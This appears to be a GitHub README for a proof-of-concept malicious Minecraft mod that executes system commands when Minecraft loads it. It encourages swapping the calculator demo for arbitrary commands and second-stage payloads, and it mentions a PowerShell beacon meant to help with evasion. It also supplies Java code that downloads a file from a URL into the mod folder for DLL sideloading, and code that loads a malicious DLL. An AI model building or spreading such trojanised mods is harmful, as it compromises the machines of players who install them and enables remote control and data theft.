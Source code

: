 # A malicious Minecraft mod

This is a Minecraft mod that can be compiled into a .jar file, dropped in the mods/ folder, and loaded into Minecraft.
Once the `onClientSetup` class is called on initialization the mod will execute the command `calc.exe`, popping the calulator app. 
Replace this command to execute arbitrary commands on the system and drop second stage payloads.


### Code
The code responsible for launching commands calls the `Runtime.getRuntime().exec()` function. 
![image](https://github.com/nickswink/mc-payload-mod/assets/57839593/ce3c1902-74aa-4715-833b-aecf5354cb83)

### Execution
As Minecraft initializes the mod the command is executed.
![image](https://github.com/nickswink/mc-payload-mod/assets/57839593/e1dfbc4d-068c-42e3-9e55-a6ed2e1635bf)

### Beacon poc
Executing a powershell paylaod to get a beacon on the remote host. (Seems to help with evasion as well)
![image](https://github.com/nickswink/mc-payload-mod/assets/57839593/1cd888b5-855e-452e-80fa-c7aff1b891c5)

### DOwnloads (dll sideloading)
| Maybe if you want to drop a file without running `Runtime.getRuntime().exec()` which is kinda sketchy. 

```java
import java.io.BufferedInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.net.URL;
import java.net.URLConnection;

public void downloadFile(String urlStr, String savePath) throws IOException {
    URL url = new URL(urlStr);
    URLConnection connection = url.openConnection();
    try (BufferedInputStream inputStream = new BufferedInputStream(connection.getInputStream());
         FileOutputStream fileOutputStream = new FileOutputStream(savePath)) {

        byte[] dataBuffer = new byte[1024];
        int bytesRead;
        while ((bytesRead = inputStream.read(dataBuffer, 0, 1024)) != -1) {
            fileOutputStream.write(dataBuffer, 0, bytesRead);
        }
    }
}

try {
    String fileUrl = "https://example.com/your_file.txt";
    String savePath = "path/to/your_minecraft_mod_folder/your_file.txt";
    downloadFile(fileUrl, savePath);
    System.out.println("File downloaded successfully!");
} catch (IOException e) {
    e.printStackTrace();
    System.out.println("File download failed!");
}

```

### Manually load a malicious Dll
| Maybe I will want to manually load (instead of sideloading) a malicious dll i've dropped

```java
import java.nio.file.Files;
import java.nio.file.Paths;

String libraryName = "your_dll_name_without_extension";
try {
    System.loadLibrary(libraryName);
    System.out.println("DLL loaded successfully.");
} catch (UnsatisfiedLinkError e) {
    System.out.println("DLL not found. Loading from file...");
    loadDllFromFile(libraryName);
}

private void loadDllFromFile(String libraryName) {
    String dllPath = "path/to/your_mod_directory/lib/" + libraryName + ".dll";
    if (Files.exists(Paths.get(dllPath))) {
        try {
            System.load(dllPath);
            System.out.println("DLL loaded from file successfully.");
        } catch (UnsatisfiedLinkError e) {
            System.out.println("Failed to load DLL from file: " + e.getMessage());
        }
    } else {
        System.out.println("DLL not found in the specified location: " + dllPath);
    }
}



```

